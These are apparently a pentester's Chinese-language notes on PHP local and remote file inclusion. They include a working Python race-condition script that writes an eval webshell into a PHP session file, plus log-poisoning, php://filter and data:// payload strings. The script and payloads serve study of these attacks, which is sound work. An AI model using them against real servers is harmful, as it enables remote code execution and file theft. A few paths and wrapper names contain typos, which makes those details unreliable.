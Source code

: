 ## 文件包含

## 本地文件包含



### 利用php_session upload process

> **Note**: 此特性自 PHP 5.4.0 后可用。 

通过翻阅php文档我们了解到

当 [session.upload_progress.enabled](https://www.php.net/manual/zh/session.configuration.php#ini.session.upload-progress.enabled) INI 选项开启时，PHP 能够在每一个文件上传时监测上传进度。 这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态 

当一个上传在处理中，同时POST一个与INI中设置的[session.upload_progress.name](https://www.php.net/manual/zh/session.configuration.php#ini.session.upload-progress.name)同名变量时，上传进度可以在[$_SESSION](https://www.php.net/manual/zh/reserved.variables.session.php)中获得。 当PHP检测到这种POST请求时，它会在[$_SESSION](https://www.php.net/manual/zh/reserved.variables.session.php)中添加一组数据, 索引是 [session.upload_progress.prefix](https://www.php.net/manual/zh/session.configuration.php#ini.session.upload-progress.prefix) 与 [session.upload_progress.name](https://www.php.net/manual/zh/session.configuration.php#ini.session.upload-progress.name)连接在一起的值。 

会生成像这样的值

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200804193825.png)

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200804193935.png)

php在文件上传结束后会删除该SESSION（ `session.upload_progress.cleanup=on`），如果我们知道session文件的存储位置（linux:`/temp/sess_PHPSESSION`）我们就可以通过上传大文件+条件竞争来命令执行

利用脚本：



```
import io
import requests
import threading
sessid = 'TGAO'
data = {"cmd":"system('whoami');"}
def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( 'http://127.0.0.1:5555/test56.php', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post('http://127.0.0.1:5555/test56.php?file=session/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[+++++++++++++]retry")
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in xrange(1,30): 
            threading.Thread(target=write,args=(session,)).start()

        for i in xrange(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
```





### 利用segment fault

php 7.0.33 string.strip_tags 会出现segment fault



string.strip_tags超大文件会出现segment fault

### 常配合文件上传利用

### 包含日志

目标:web日志,ssh日志

http://192.168.1.105/test.php?file=/var/log/auth.log&c=ls

利用方式:

- GET方法
- http头的Authorization字段(工具tamper data)

Authorization会将证书base64编码后发送

> `Authorization` 是用来告知服务器，用户代理的认证信息（证书值）。通常，想要通过服务器认证的用户代理会在接受到返回的401状态码响应后，把首部字段 `Authorization` 加入请求中。公众缓存在接受到含有 `Authorization` 首部字段的请求时的操作处理会略有差异。

![](http://ww1.sinaimg.cn/large/006pWR9agy1g5qaa0m4e6j30kl0d73z7.jpg)



### 针对/proc/self/environ的攻击方法



- 攻击原理

​       /proc/self/environ是Linux系统下的环境变量文件，用于保存系统的一些变量。访问

者可通过修改浏览器的User Agent信息插入自己的内容到该文件，利用这一特性将php代码写入/proc/self/environ文件中，然后在有LFI漏洞的注入点中写入该文件的正确路径及文件名，而后结合php的路径截断特性来进行文件包含漏洞利用。

- 限制条件

平台限制：只能应用于Linux系统下；

访问者（HTTP服务器的启动用户）需要具有对/proc/self/environ文件具有读写权限；

### 针对session文件的攻击方法

- 攻击原理

php session文件是php的session会话机制产生的文件，一般用于用户身份认证，会话状态管理等等。该文件一般存储在/tmp/(Linux)，/var/lib/php/sessison/(Linux)，c:\windows\temp\(Windows)等目录下。当知道session存储路径时，我们可通过firefox的firebug插件查看当前SESSION ID（session文件名格式为：sess_SESSIONID），然后在有LFI漏洞的注入点中写入session文件的路径及文件名，而后结合php的路径截断特性来进行文件包含漏洞利用。

- 限制条件

目标网站必须存在session文件；

访问者可以进行session文件部分内容的控制，以此来构造恶意代码； （如接收useragent等可控制内容，由于session加密方式或安全加密措施难以知悉，还可能会进行md5加密等，成功包含一句可执行的话难度很大）

### php伪协议

file://(访问本地文件系统)、php://filter(对本地文件系统进行读写)；php://input



php://filter/read=/resource=

php://filter/read=convert.base64-dncode/resource=

php://filter/read=convert.base64-encode/resource=

zip://filename.zip#dir/file

phar://

利用`php://filter`进行文件包含时，最后一条链是无效的也会读取

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200805215049.png)



## 远程文件包含

### 限制条件

1. PHP的allow_url_include需要为On（如果没有allow_url_include这一项则只需      将allow_url_fopen设置为On即可）；（在php.ini中配置）
2. nPHP的版本限制；（php5.2.0及以上版本）

### php://input

需要开启allow_url_include开关

### data://

使用data://协议执行php命令，格式为：data://text/plain,php语句

data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4

allow_url_include和allow_url_fopen

### php://filter

常见利用方式：php://filter/read=convert.base64-encode/resource=index.php







## 好文章

 [k0rz3n文件包含漏洞](https://www.k0rz3n.com/2018/11/20/一篇文章带你理解漏洞之 PHP 文件包含漏洞/) 

